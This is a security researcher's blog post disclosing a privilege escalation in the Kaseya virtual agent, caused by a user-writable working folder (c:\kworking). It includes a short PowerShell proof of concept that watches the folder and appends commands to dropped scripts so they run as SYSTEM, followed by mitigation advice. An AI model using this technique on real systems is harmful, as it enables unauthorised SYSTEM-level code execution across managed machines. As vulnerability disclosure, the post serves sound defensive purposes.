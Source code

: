 ```yaml
---
layout: post
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
So this is the first time I've written about a security issue I've found. Previously they have been non issues or in niche products.
I decided to write about this as the vendor was extermely unresponsive and going through previous product CVEs it seems to be a
trait of the company, ignore the issue until an exploit is published. The other reason is that if a company is using this product then generally every machine is at risk. So I give you Kaseyas virtual agent.

<h3>Product</h3>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via deployed agents.
Its a competitor for Microsofts system center and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.

<h3>Vulnerability</h3>
This is not really a new issue as such but more an extension of CVE-2017-12410 found by Filip Palian.
Where a fix was put in place for the original issue - it seems they didnt look at the root cause.
Excesive access to the working folder for an elevated account.

Kaseya agent has a working folder that defaults to <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk.
By default the any authenticate user can read / write this folder.

Scripts are not authenticated and are written to disk prior to execution.
So if the folder is monitored for script files being dropped an attacker just needs to append their own code prior to execution.

<h3>Impact</h3>
Given that the Kaseya virtual agent is an IT managment tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. However the vulnerability itself is reliant on code execution within the working folder and is dependant on scheduled tasks or an administrator executing tasks so the wait time can vary from 1 hour, a day or week.

If the working folder is commonly used with scripted commands this will be quite reliable for all systems - so the impact will vary dependant on an IT departments use of this.

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the Kaseya working directory.
When a ps1 script drops it will then append to the end the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
If you are using Kaseya all scripts should be signed and verified prior to execution eliminiating the ability to append arbitary commands. Additionally Kaseya should remove the excesive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.
